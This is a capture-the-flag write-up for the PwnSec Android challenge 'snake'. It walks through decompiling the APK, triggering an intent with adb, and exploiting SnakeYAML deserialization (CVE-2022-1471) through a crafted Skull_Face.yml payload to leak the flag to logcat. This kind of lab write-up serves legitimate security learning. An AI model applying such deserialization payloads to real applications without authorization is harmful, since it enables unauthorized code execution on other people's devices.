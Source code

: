 #ctf #intents #intents-extra #logs #logcat #deserialization #adb #vuln 
**Description**: Make sure to run the mobile application on Android API 28 or less (Android 9 or less).
**Download content**: https://lautarovculic.com/my_files/snake.zip

![[pwnSec_snake1.png]]

Install the **apk** with **ADB**.
**NOTE**
Ill use an **AVD** (Android Virtual Device) *non-rooted* from the **Android Studio** SDK.
```bash
adb install -r snake.apk
```

The *UI app* doesn't have nothing interesting. But is good notice that the **app ask for us about storage permissions**.
In fact, the **`AndroidManifest.xml`** file have
```XML
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
```

Let's decompile the app with **apktool**
```bash
apktool d snake.apk
```
And inspect the **source code** with **jadx** (GUI version)
The **MainActivity** has multiple *root detection*, *frida detection* and *storage permissions*.

The unique interesting code in this activity is the `C()` method:
```java
public final void C() {
    Intent intent = getIntent();
    String stringExtra = intent.getStringExtra("SNAKE");
    
    if (intent.hasExtra("SNAKE") && stringExtra.equals("BigBoss")) {
        File file = new File(new File(Environment.getExternalStorageDirectory(), "snake"), "Skull_Face.yml");
        
        if (!file.exists()) {
            Log.e("YML File", "File not found: " + file.getAbsolutePath());
            return;
        }
        
        try {
            FileInputStream fileInputStream = new FileInputStream(file);
            try {
                e eVar = new e(0);
                Object f2 = eVar.f(fileInputStream);
                Log.d("Skull Face data: ", f2.toString());
                eVar.c(f2);
            } finally {
                fileInputStream.close();
            }
        } catch (IOException e2) {
            Log.e("YML File", "Error reading file: ", e2);
        }
    }
}
```

Also, we have the **BigBoss** class, which is
```java
package com.pwnsec.snake;  
  
import android.util.Log;  
  
public class BigBoss {  
    static {  
        System.loadLibrary("snake");  
    }  
  
    public BigBoss(String str) {  
        String stringFromJNI = stringFromJNI(str);  
        if (str.equals("Snaaaaaaaaaaaaaake")) {  
            Log.d("BigBoss: ", hexToAscii(stringFromJNI));  
        }  
    }  
  
    private String hexToAscii(String str) {  
        StringBuilder sb = new StringBuilder();  
        int i2 = 0;  
        while (i2 < str.length()) {  
            int i3 = i2 + 2;  
            sb.append((char) Integer.parseInt(str.substring(i2, i3), 16));  
            i2 = i3;  
        }  
        return sb.toString();  
    }  
  
    public native String stringFromJNI(String str);  
}
```

We have an **intent** that we can call with **`am`** (Activity Manager) tool from **adb**.
This specific code
```java
Intent intent = getIntent();
String stringExtra = intent.getStringExtra("SNAKE");

if (intent.hasExtra("SNAKE") && stringExtra.equals("BigBoss")) {
    File file = new File(new File(Environment.getExternalStorageDirectory(), "snake"), "Skull_Face.yml");
    
    if (!file.exists()) {
        Log.e("YML File", "File not found: " + file.getAbsolutePath());
        return;
    }
}
```
Is the *entry point*.
We can run the following command for *start the app* with the *extra strings*
```bash
adb shell am start -n com.pwnsec.snake/.MainActivity -e SNAKE BigBoss
```

In the *UI App* nothing change, but reading the code, if we run
```bash
adb logcat | grep "YML File"
```
We can notice that
```bash
12-10 00:01:08.258  9002  9002 E YML File: File not found: /storage/emulated/0/snake/Skull_Face.yml
```
The app expect a *file* called *`Skull_Face.yml`* in `/storage/emulated/0/snake/` directory.

Inspecting the **BigBoss** class, we can see that here's an **`SnakeYAML deserialization`**.
```java
public class BigBoss {  
    static {  
        System.loadLibrary("snake");  
    }  
  
    public BigBoss(String str) {  
        String stringFromJNI = stringFromJNI(str);  
        if (str.equals("Snaaaaaaaaaaaaaake")) {  
            Log.d("BigBoss: ", hexToAscii(stringFromJNI));  
        }  
    }  
  
    private String hexToAscii(String str) {  
        StringBuilder sb = new StringBuilder();  
        int i2 = 0;  
        while (i2 < str.length()) {  
            int i3 = i2 + 2;  
            sb.append((char) Integer.parseInt(str.substring(i2, i3), 16));  
            i2 = i3;  
        }  
        return sb.toString();  
    }  
  
    public native String stringFromJNI(String str);  
}
```

And, here's more information about this **CVE** (CVE-2022-1471)
https://www.veracode.com/blog/research/resolving-cve-2022-1471-snakeyaml-20-release-0

So, according to the article and vulnerability, we can use the following exploit:
```YML
!!com.pwnsec.snake.BigBoss ["Snaaaaaaaaaaaaaake"]
```
This content must be saved in the `Skull_Face.yml` file that the app search for, which is `/storage/emulated/0/snake/`

Create the *folder* and the *file*. Then, run again the app with **ADB** and the *extra strings*
```bash
adb shell am start -n com.pwnsec.snake/.MainActivity -e SNAKE BigBoss
```

Use **logcat** for see the flag
```bash
adb logcat | grep -i "PWNSEC"
```

Flag: **`PWNSEC{W3'r3_N0t_T00l5_0f_The_g0v3rnm3n7_0R_4ny0n3_3ls3}`**

I hope you found it useful (: